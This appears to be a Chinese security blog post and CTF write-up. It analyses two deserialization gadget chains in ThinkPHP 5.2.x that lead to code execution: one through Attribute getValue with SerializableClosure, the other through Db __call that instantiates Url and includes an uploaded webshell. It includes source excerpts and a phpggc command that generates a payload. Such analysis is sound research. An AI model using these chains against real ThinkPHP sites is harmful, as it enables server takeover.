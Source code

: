 > 原文链接: https://www.anquanke.com//post/id/187332 


# thinkphp v5.2.x 反序列化利用链挖掘


                                阅读量   
                                **631459**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01a996657b114f626d.jpg)](https://p5.ssl.qhimg.com/t01a996657b114f626d.jpg)



## 0x00 前言

上周参与了N1CTF，里面有一道关于thinkphp5的反序列化漏洞的利用。记录一下关于该反序列化的利用链分析。

后文主要包括两条链的利用分析（一条是我找的，也是题目的预期解，另一条是wonderkun师傅找的非预期解）



## 0x01 环境准备

这里就不直接用题目的环境了，采用composer直接安装5.2.*-dev版本

composer create-project topthink/think=5.2.x-dev v5.2



## 0x02 利用链分析

### <a name="header-n9"></a>背景回顾

tp5在我印象里反序列化的利用链存在一个Windows类的任意文件删除，但是在[这篇文章](%5bhttps:/blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/%5d(https:/blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/))的启示下，也算是找到了一条新的路（关于__toString的触发方式，除了字符串拼接的方式，还可以利用PHP自带函数参数的强制转换）。

这篇文章的利用链最后用到了5.1.37版本think/Request.php的 __call函数，该函数的调用函数名可控，所以可以导致任意调用其他的类函数。而在5.2.x版本不存在这样的一个__call函数，这意味着我们需要重新找一个最终达成命令执行的函数调用（__call函数前的利用链仍然可用）。

那么接下来，我们来看看5.2.x新的利用链吧：）

### <a name="header-n13"></a>think/model/concern/Attribute.php getValue可函数动态调用函数（题目的预期解）

由于5.1.37__call函数前的利用链仍然存在于5.2.x版本，这里就不再详述了。

先来看一下Conversion类的toArray函数

```
public function toArray(): array
`{`
    // ...
    // 合并关联数据
    $data = array_merge($this-&gt;data, $this-&gt;relation);

    foreach ($data as $key =&gt; $val) `{`
        if ($val instanceof Model || $val instanceof ModelCollection) `{`
            // ...
        `}` elseif (isset($this-&gt;visible[$key])) `{`
            $item[$key] = $this-&gt;getAttr($key);// relation和visible存在同一个key就行
        // ...
    `}`

    // ...
```

去掉了无关的代码，这里$this-&gt;visible、$this-&gt;relation均可控，可伪造数据进入getAttr函数

```
public function getAttr(string $name)
`{`
    // ...
    return $this-&gt;getValue($name, $value, $relation);
`}`

protected function getValue(string $name, $value, bool $relation = false)
`{`
  // 检测属性获取器
  $fieldName = $this-&gt;getRealFieldName($name);// 直接返回$name的值
    // ...
  if (isset($this-&gt;withAttr[$fieldName])) `{`
    // ...
    $closure = $this-&gt;withAttr[$fieldName]; // withAttr内容可控
    $value   = $closure($value, $this-&gt;data); // 动态调用函数
      // ...
```

直接关注getValue函数，该函数可动态调用函数，并且调用函数、函数参数均可控。所以接下来有两种方法，第一种是找一个符合条件的php函数，另一种是利用tp自带的SerializableClosure调用，来看一下第二种。

[\Opis\Closure](https://github.com/opis/closure)可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。这意味着我们可以序列化一个匿名函数，然后交由上述的$closure($value, $this-&gt;data)调用执行。

```
$func = function()`{`phpinfo();`}`;
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this-&gt;data);// 这里的参数可以不用管
```

以上述代码为例，将调用phpinfo函数。

到此为止，我们分析完了整一个调用流程，回顾一下
<li>vendor/topthink/framework/src/think/process/pipes/Windows.php<br>
__destruct -&gt;removeFiles -&gt;file_exists 强制转化字符串filename，这里的filename可控 可触发__toString函数，下一步找可利用的__toString</li>
1. vendor/topthink/framework/src/think/model/concern/Conversion.php __toString -&gt; toJson -&gt; toArray创造符合条件的relation和visible-&gt; getAttr 下一步调用vendor/topthink/framework/src/think/model/concern/Attribute.php的getValue函数
1. vendor/topthink/framework/src/think/model/concern/Attribute.php getValue -&gt; $closure动态调用函数，且该内容可控 下一步利用有两种，一种找符合的php函数，另一种利用tp自带的SerializableClosure调用
1. vendor/opis/closure/src/SerializableClosure.php 构造可利用的匿名函数
我把exp集成到了[phpggc](https://github.com/wh1t3p1g/phpggc)上，使用如下命令即可生成

```
./phpggc -u ThinkPHP/RCE1 'phpinfo();'
```

这里由于用到了SerializableClosure，需要使用编码器编码，不可直接输出拷贝利用。

### <a name="header-n36"></a>think/Db.php __call函数可实例化任意类（题目的非预期解）

前面说到5.1.37版本的利用链的__call函数，在5.2.x版本没办法用了。但是从__destruct到__call的链路是通的，我们只需要重新找一个可用的__call函数即可。

来看一下vendor/topthink/framework/src/think/Db.php的__call函数

```
public function __call($method, $args)
`{`
    $class = $this-&gt;config['query'];

    $query = new $class($this-&gt;connection);

    return call_user_func_array([$query, $method], $args);
`}`
```

$this-&gt;config和$this-&gt;connection均可控，这意味着我们可以实例化任意符合条件的类，这里找了think\Url

```
public function __construct(App $app, array $config = [])
`{`
    $this-&gt;app    = $app;
    $this-&gt;config = $config;

    if (is_file($app-&gt;getRuntimePath() . 'route.php')) `{`
        // 读取路由映射文件
        $app-&gt;route-&gt;import(include $app-&gt;getRuntimePath() . 'route.php');
    `}`
`}`
```

该构造器引入了RuntimePath下的route.php文件，因为这道题是允许上传文件的，所以只要在可上传的目录下上传一个route.php的webshell即可。至于RuntimePath，$app为可控变量，直接修改$runtimePath的内容即可。

我们直接构造App对象为

```
class App`{`

    protected $runtimePath;
    public function __construct(string $rootPath = '')`{`
        $this-&gt;rootPath = $rootPath;
        $this-&gt;runtimePath = "/tmp/";
        $this-&gt;route = new \think\route\RuleName();
    `}`
`}`
```

这个构造思路太溜了，膜一波：）

整理一下过程
<li>vendor/topthink/framework/src/think/process/pipes/Windows.php<br>
__destruct -&gt;removeFiles -&gt;file_exists 强制转化字符串filename，这里的filename可控 可触发__toString函数，下一步找可利用的__toString</li>
1. vendor/topthink/framework/src/think/model/concern/Conversion.php- __toString -&gt; toJson -&gt; toArray-&gt;appendAttrToArray-&gt;$relation调用不存在的函数，触发__call1. vendor/topthink/framework/src/think/Db.php- __call -&gt; new $class($this-&gt;connection) 调用任意类的__construct函数1. vendor/topthink/framework/src/think/Url.php- 构造App类，达到include任意文件的效果